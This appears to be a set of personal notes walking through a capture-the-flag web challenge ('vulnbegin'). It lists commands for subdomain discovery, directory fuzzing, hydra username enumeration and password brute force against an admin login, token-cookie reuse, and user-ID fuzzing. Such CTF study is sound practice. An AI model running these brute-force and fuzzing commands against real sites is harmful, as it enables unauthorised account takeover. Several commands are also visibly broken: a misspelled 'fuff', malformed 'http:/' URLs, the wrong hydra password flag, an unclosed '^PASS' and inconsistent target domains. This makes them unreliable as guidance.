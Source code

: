 
>[!warning]
> CTFChallenge will ban you if you use aggresive bruteforce or scanning Techniques.
# Step 1 : 
## Check Code

>[!Note] 
>- Comments
>- Avoid Prebuild Frameworks

__________________________

# Step 2 : 
## DNS Information

```Powershell
nslookup -type=any vulnbegin.com 8.8.8.8
```
_________________

# Step 3 : 
## Subdomain Find

**`Tools can be used like sublister, assetfinder, etc.`**

>[!Info] OSINT WAY
```bash
theHarvester -d vulnbegin.co -b all
```

>[!info] Bruteforce way 
>
```bash
dnsrecon -d vulnbegin.co.uk -D /wordlists/subdomain.txt -type brt
```

### curl

```bash
curl *.vulnbegin.co -H "Cookie: $cookie"
```
_____________

# Step 4 :
## Content Discovery
#Directory_Busting

```bash
fuff -w /wordlists/content.txt -t 2 -p 0.1 -H "Cookie: $cookie" -u http:/vulnbegin.co/FUZZ
```

_________

# Step 5 :
## User Enumeration

```bash
hydra -L /wordlists/usernames.txt -p abcd vulnbegin.co http-post-form "/cpadmin/login:username=^USER^&password=^PASS:F=Username is Invalid:H=Cookie: $cookie" -f -t 1
```

## Password Bruteforce

```bash
hydra -l admin -p /wordlists/password.txt vulnbegin.co http-post-form "/cpadmin/login:username=^USER^&password=^PASS:F=Password is Invalid:H=Cookie: $cookie" -f -t 1
```

_____
# Step 6 : 
## Cookies
Name | Value
---- | ----
token| @@@@
ctfchallenge | @@@@

>[!Note]
>Token allows us to stay on the user page.

```bash
fuff -w /wordlists/content.txt -t 2 -p 0.1 -H "Cookie: token=@@@@; $cookie" -u http:/vulnbegin.co/userpage/FUZZ
```

________

# Step 7 :
## Find the commons

- Use the header to other subdomain
__________
# Step 8 :
## Content Discovery

```bash
fuff -w /wordlists/content.txt -t 2 -p 0.1 -H "Header dicovered" -H "Cookie: $cookie" -u http://*.vulnbegin.co/FUZZ
```
______
# Step 9 :
## User Bruteforce 
#using_seq_tool

```bash
seq 1 100 | fuff -w - -t 2 -p 0.1 -H "Header dicovered" -H "Cookie: $cookie" -u http://*.vulnbegin.co/user/FUZZ
```
